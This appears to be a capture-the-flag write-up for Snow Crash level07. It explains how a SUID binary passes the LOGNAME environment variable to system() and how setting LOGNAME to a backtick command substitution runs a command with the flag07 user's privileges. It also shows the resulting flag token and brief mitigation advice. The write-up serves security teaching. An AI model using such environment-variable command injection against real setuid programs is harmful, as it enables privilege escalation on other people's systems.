 # Level07 - Snow Crash Exploit

## Description

Upon logging in as `level07`, there is a single SUID executable in the home directory:

```
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Running the binary simply prints its own name:

```bash
./level07
# Output: level07
```

## Analysis

Using `ltrace` to trace library calls reveals the following:

```
getenv("LOGNAME") = "level07"
asprintf(...)
system("/bin/echo level07 "level07" ...)
```

The program retrieves the value of the `LOGNAME` environment variable and passes it to `/bin/echo` via `system()`. This introduces a command injection vulnerability if the environment variable contains shell metacharacters.

## Exploitation

By setting the `LOGNAME` environment variable to a command substitution, we can execute arbitrary commands as the `flag07` user:

```bash
export LOGNAME="`getflag`"
./level07
```

**Output:**
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Mitigation

- Never pass unsanitized environment variables or user input to system calls.
- Use safe APIs or sanitize input before using it in shell